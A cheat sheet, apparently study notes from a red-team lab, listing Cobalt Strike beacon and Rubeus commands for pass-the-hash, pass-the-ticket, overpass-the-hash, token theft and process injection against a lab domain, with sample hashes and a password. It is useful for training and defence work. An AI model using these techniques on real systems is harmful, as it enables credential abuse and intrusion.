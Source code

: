 > A common way of testing access to a machine is to list the C drive, as this requires local admin privileges to access.

# Pass the hash through beacon

```bash
# check that with the current user we cannot list C from web computer
getuid
ls \\web.dev.cyberbotic.io\c$

# Impersonate john king by using NTLM hash
pth DEV\jking 59fc0f884922b4ce376051134c71e22c
ls \\web.dev.cyberbotic.io\c$

# Drop the impersonation when finished
rev2self
```

---

# Pass the Ticket through beacon (Creating a new logon session and passing tickets into sessions other than your own requires elevated privileges)

```bash
# Create new hidden process
execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe createnetonly /program:C:\Windows\System32\cmd.exe

# Use the LUID of the new process to inject a previously dumped ticket
execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe ptt /luid:0x798c2c /ticket:doIFuj[...snip...]lDLklP

# Steal the token from the created process (pid from first command)
steal_token 4748
ls \\web.dev.cyberbotic.io\c$

# Drop the impersonation when finished
rev2self
kill 4748
```

---

# Overpass the hash (create a Ticket that we can use for PassTheTicket from an NTLM or AES256) - No Elevation Required

```bash
# Request a TGT using user's NTLM hash (copy the base64 ticket)
execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe asktgt /user:jking /ntlm:59fc0f884922b4ce376051134c71e22c /nowrap

# Request a TGT using user's AES256 hash (copy the base64 ticket)
execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe asktgt /user:jking /aes256:4a8a74daad837ae09e9ecc8c2f1b89f960188cb934db6d4bbebade8318ae57c6 /nowrap

# Proceed to follow the steps to Pass the Ticket attack
```

---

# Token impersonation

```bash
# Check if there are any processes running as user
ps

# If we see any processes we can directly hijack the PID directly
steal_token 5536
ls \\web.dev.cyberbotic.io\c$
rev2self

# We can also use token_store
token_store steal 5536
token_store show
token_store use 0
rev2self
token_store remove <id> #or all
```

---

# Making a token (plain text password needed)

```bash
make_token DEV\jking Qwerty123
remote-exec winrm web.dev.cyberbotic.io whoami
```

---

# Process Injection (elevation needed for other user processes)

```bash
# We use the following to inject
# - 4464 is the target PID.
# - x64 is the architecture of the process.
# - tcp-local is the listener name.

inject 4464 x64 tcp-local
```

---
